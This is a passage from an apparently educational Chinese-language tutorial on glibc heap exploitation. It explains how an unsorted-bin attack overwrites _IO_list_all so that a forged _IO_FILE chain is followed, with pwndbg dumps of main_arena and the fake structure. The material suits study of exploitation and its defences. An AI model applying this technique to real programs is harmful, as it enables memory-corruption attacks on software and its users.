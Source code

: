&emsp;&emsp;<font size=2>这是一段利用完刚修改`_IO_list_all`的demo代码，为什么我们要修改`_IO_list_all`呢？因为这个全局变量是指向一个`_IO_FILE`结构体的`_IO_2_1_stderr_`，而这个`_IO_FILE`又是通过其中的`_chain`元素把每一个结构体串联在一起形成的链表，如果结构体有问题，那么在触发错误的时候系统会根据`_chain`查找到下一个节点。</font></br>

&emsp;&emsp;<font size=2>接下来我们再想想为什么要用`unsorted-bin attack`写入一个`main_arena`到`_IO_list_all`里去呢？写入之后，其`_chain`是什么？没错，就是`main_arena`中smallbin数组的某个size索引的堆块位置处，而这个size就是`0x60`。如下`unsorted-bin attack`完成后的情况：</font></br>

```
pwndbg> x/xg & _IO_list_all
0x7ffff7dd2520 <_IO_list_all>:	0x00007ffff7dd1b78
pwndbg> x/20xg & main_arena
0x7ffff7dd1b20 <main_arena>:	0x0000000100000000	0x0000000000000000
0x7ffff7dd1b30 <main_arena+16>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b40 <main_arena+32>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b50 <main_arena+48>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b60 <main_arena+64>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b70 <main_arena+80>:	0x0000000000000000	0x0000000000602360
0x7ffff7dd1b80 <main_arena+96>:	0x00000000006020b0	0x0000000000602140
0x7ffff7dd1b90 <main_arena+112>:	0x00007ffff7dd2510	0x00007ffff7dd1b88
0x7ffff7dd1ba0 <main_arena+128>:	0x00007ffff7dd1b88	0x00007ffff7dd1b98
0x7ffff7dd1bb0 <main_arena+144>:	0x00007ffff7dd1b98	0x00007ffff7dd1ba8
pwndbg> 
0x7ffff7dd1bc0 <main_arena+160>:	0x00007ffff7dd1ba8	0x00007ffff7dd1bb8
0x7ffff7dd1bd0 <main_arena+176>:	0x00007ffff7dd1bb8	0x00000000006020b0
0x7ffff7dd1be0 <main_arena+192>:	0x00000000006020b0	0x00007ffff7dd1bd8
0x7ffff7dd1bf0 <main_arena+208>:	0x00007ffff7dd1bd8	0x00007ffff7dd1be8
0x7ffff7dd1c00 <main_arena+224>:	0x00007ffff7dd1be8	0x00007ffff7dd1bf8
0x7ffff7dd1c10 <main_arena+240>:	0x00007ffff7dd1bf8	0x00007ffff7dd1c08
0x7ffff7dd1c20 <main_arena+256>:	0x00007ffff7dd1c08	0x00007ffff7dd1c18
0x7ffff7dd1c30 <main_arena+272>:	0x00007ffff7dd1c18	0x00007ffff7dd1c28
0x7ffff7dd1c40 <main_arena+288>:	0x00007ffff7dd1c28	0x00007ffff7dd1c38
0x7ffff7dd1c50 <main_arena+304>:	0x00007ffff7dd1c38	0x00007ffff7dd1c48
pwndbg> p *(struct _IO_FILE_plus*)0x00007ffff7dd1b78
$1 = {
  file = {
    _flags = 6300512, 
    _IO_read_ptr = 0x6020b0 "", 
    _IO_read_end = 0x602140 "", 
    _IO_read_base = 0x7ffff7dd2510 "", 
    _IO_write_base = 0x7ffff7dd1b88 <main_arena+104> "@!`", 
    _IO_write_ptr = 0x7ffff7dd1b88 <main_arena+104> "@!`", 
    _IO_write_end = 0x7ffff7dd1b98 <main_arena+120> "\210\033\335\367\377\177", 
    _IO_buf_base = 0x7ffff7dd1b98 <main_arena+120> "\210\033\335\367\377\177", 
    _IO_buf_end = 0x7ffff7dd1ba8 <main_arena+136> "\230\033\335\367\377\177", 
    _IO_save_base = 0x7ffff7dd1ba8 <main_arena+136> "\230\033\335\367\377\177", 
    _IO_backup_base = 0x7ffff7dd1bb8 <main_arena+152> "\250\033\335\367\377\177", 
    _IO_save_end = 0x7ffff7dd1bb8 <main_arena+152> "\250\033\335\367\377\177", 
    _markers = 0x6020b0, 
    _chain = 0x6020b0, 
    _fileno = -136504360, 
    _flags2 = 32767, 
    _old_offset = 140737351850968, 
    _cur_column = 7144, 
    _vtable_offset = -35 '\335', 
    _shortbuf = <incomplete sequence \367>, 
    _lock = 0x7ffff7dd1be8 <main_arena+200>, 
    _offset = 140737351851000, 
    _codecvt = 0x7ffff7dd1bf8 <main_arena+216>, 
    _wide_data = 0x7ffff7dd1c08 <main_arena+232>, 
    _freeres_list = 0x7ffff7dd1c08 <main_arena+232>, 
    _freeres_buf = 0x7ffff7dd1c18 <main_arena+248>, 
    __pad5 = 140737351851032, 
    _mode = -136504280, 
    _unused2 = "\377\177\000\000(\034\335\367\377\177\000\000\070\034\335\367\377\177\000"
```